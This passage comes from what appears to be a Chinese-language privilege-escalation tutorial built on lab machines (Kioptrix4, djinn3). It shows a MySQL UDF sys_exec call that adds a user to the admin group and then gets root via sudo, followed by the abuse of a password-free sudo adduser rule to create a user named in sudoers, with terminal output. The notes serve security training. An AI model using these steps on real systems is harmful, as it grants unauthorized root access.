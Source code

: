 ```

mysql> select sys_exec('usermod -a -G admin john');
+--------------------------------------+
| sys_exec('usermod -a -G admin john') |
+--------------------------------------+
| NULL                                 |
+--------------------------------------+
1 row in set (0.05 sec) 

mysql> exit
Bye

john@Kioptrix4:/var/www$ sudo su - 
[sudo] password for john: 
root@Kioptrix4:~# whoami 
root 
root@Kioptrix4:~# cd /root 
root@Kioptrix4:~# ls 
congrats.txt  lshell-0.9.12 
root@Kioptrix4:~#
```

UDF提权详情：[0X04 数据库内置函数研究](https://www.yuque.com/xmtxsec/network_security/anq3ng)
UDF提权实例：[pWnOS: 2.0](https://www.yuque.com/xmtxsec/network_security/ftamoe)


## 10.11、apt-get提权
执行sudo -l，发现可以免密执行adduser命令，添加一个root组的用户<br />![](./assets/1671608752522-dbf058b6-d0b7-487a-baf3-c37aa0088426.jpeg)

有了这个跟 root 同一组的用户，就可以读到一些只能root组和root读的文件:/etc/sudoers，该文件包含了能够让普通用户执行一些或者全部的root命令，如果该文件可以写入的话，我们可以把当前用户写入：chounana ALL=(ALL:ALL) ALL，这样当执行sudo su的时候，我们就可以进入到 root 了！

查看sudoers文件，查看还有哪些用户可以使用sudo执行命令，发现一个jason用户，但是这个用户并不存在，但是我们是可以新建用户的，所以需要密码（自己的密码）才能执行这个也就没有问题。<br />![](./assets/1671608752604-bad06e70-5866-4320-9265-612156958eb7.jpeg)
exit退回到saint用户，新建jason用户
```
chounana@djinn3:/home/saint$ exit
exit
saint@djinn3:~$ sudo adduser jason
Adding user `jason' ...
Adding new group `jason' (1005) ...
Adding new user `jason' (1005) with group `jason' ...
Creating home directory `/home/jason' ...
Copying files from `/etc/skel' ...
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
Changing the user information for jason
Enter the new value, or press ENTER for the default
        Full Name []: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
Is the information correct? [Y/n] 
saint@djinn3:~$ 
```
